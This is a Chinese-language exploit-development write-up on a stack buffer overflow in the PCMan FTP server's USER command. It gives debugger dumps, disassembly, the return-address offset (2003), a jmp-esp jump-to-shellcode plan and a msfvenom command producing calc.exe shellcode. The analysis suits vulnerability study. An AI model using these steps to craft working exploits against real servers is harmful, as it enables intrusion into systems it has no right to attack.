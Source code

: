 ```
0019ed08  61616461 61616561 61616661 61616761  adaaaeaaafaaagaa
0019ed18  61616861 61616961 61616a61 61616b61  ahaaaiaaajaaakaa
0019ed28  61616c61 61616d61 61616e61 61616f61  alaaamaaanaaaoaa
0019ed38  61617061 61617161 61617261 61617361  apaaaqaaaraaasaa
0019ed48  61617461 61617561 61617661 61617761  ataaauaaavaaawaa
0019ed58  61617861 61617961 61617a61 61616262  axaaayaaazaabbaa
0019ed68  61616362 61616462 61616562 61616662  bcaabdaabeaabfaa
```
另外这个sprintf的调用函数在`402a26`处，这个上面已经分析过，然而这个函数调用不是标准的，它没有创建栈帧
```
00403e5e 90              nop
00403e5f 90              nop
;402a26函数代码片段
00403e60 a140354400      mov     eax,dword ptr [image00400000+0x43540 (00443540)];从402a26来
00403e65 81ec14080000    sub     esp,814h
00403e6b 85c0            test    eax,eax
00403e6d 56              push    esi
00403e6e 57              push    edi
00403e6f 8bf1            mov     esi,ecx
00403e71 750d            jne     image00400000+0x3e80 (00403e80)
00403e73 a148354400      mov     eax,dword ptr [image00400000+0x43548 (00443548)]
00403e78 85c0            test    eax,eax
00403e7a 0f8431010000    je      image00400000+0x3fb1 (00403fb1)
00403e80 8d442408        lea     eax,[esp+8]
00403e84 50              push    eax
00403e85 ff15a8524300    call    dword ptr [image00400000+0x352a8 (004352a8)]
```
所以堆栈回溯无法确定返回地址在栈中的位置，当然我们可以在402a26位置下断点记下位置，这里由于已经知道在payload偏移2003处覆盖返回地址（上面分析过）就不必了。我们可以单步步过直到返回。然后查看栈
```
0:000> dc esp
0019ece4  61616275 61616375 61616475 61616575  ubaaucaaudaaueaa
0019ecf4  61616675 61616775 61616875 61616975  ufaaugaauhaauiaa
0019ed04  61616a75 61616b75 61616c75 000a0d75  ujaaukaaulaau...
0019ed14  61616761 61616861 61616961 61616a61  agaaahaaaiaaajaa
0019ed24  61616b61 61616c61 61616d61 61616e61  akaaalaaamaaanaa
0019ed34  61616f61 61617061 61617161 61617261  aoaaapaaaqaaaraa
0019ed44  61617361 61617461 61617561 61617661  asaaataaauaaavaa
0019ed54  61617761 61617861 61617961 61617a61  awaaaxaaayaaazaa
```
可见返回地址已经被覆盖为0x61616275.这里要注意下，`19ecf8`处为recv的buf，而`19e4e4`为sprintf的写入地址，所以payload过长会覆盖recv的buf，在漏洞利用上得注意。最后，不止USER命令，其他命令在同样位置均存在溢出。
***
## 漏洞利用
由于我的win10 64bit默认开启的DEP防护是optin，所以就不绕过DEP了，好像pcman没有开启alsr也就不用绕过了，我直接获取本机的user32.dll中的jmp esp地址的。利用手法很简单，因为我还不会高明的利用，这里只是搞着玩！
开始：
payload在偏移2003处开始覆盖返回地址，这里直接覆盖返回地址为jmp esp，然后后面跟上一个跳转指令直接跳到`19ecf8`处的shellcode，又由于这里会被覆盖（上面有解释）那么可以向后偏移几个字节，比如可以直接跳转到19ecff处，跳转的偏移=0x19ecff-0x19ecec-4=0xf=15，4是跳转指令的长度，这里的返回指令是ret 4所以esp会额外加4。至于shellcode，我用msfvenom来生成一个弹出计算器的shellcode：`msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -i 2 -f python -b '\x00\x0a\x0d'`。
